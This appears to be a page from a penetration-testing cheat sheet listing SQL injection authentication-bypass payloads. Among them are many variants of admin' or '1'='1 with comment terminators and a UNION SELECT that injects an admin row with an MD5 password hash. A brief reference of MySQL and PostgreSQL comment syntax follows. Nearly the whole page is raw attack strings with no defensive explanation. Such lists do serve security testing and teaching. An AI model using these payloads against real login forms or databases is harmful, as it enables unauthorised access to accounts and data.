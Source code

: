 ```console
") or ("x")=("x
")) or (("x"))=(("x
or 1=1
or 1=1-- 
or 1=1#
or 1=1/*
admin' --
admin' #
admin'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1;#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
admin" --
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
```
## Comments
```console
MySQL
#comment
-- comment     [Note the space after the double dash]
/*comment*/
/*! MYSQL Special SQL */
================================================================================
PostgreSQL
--comment
/*comment*/
================================================================================
```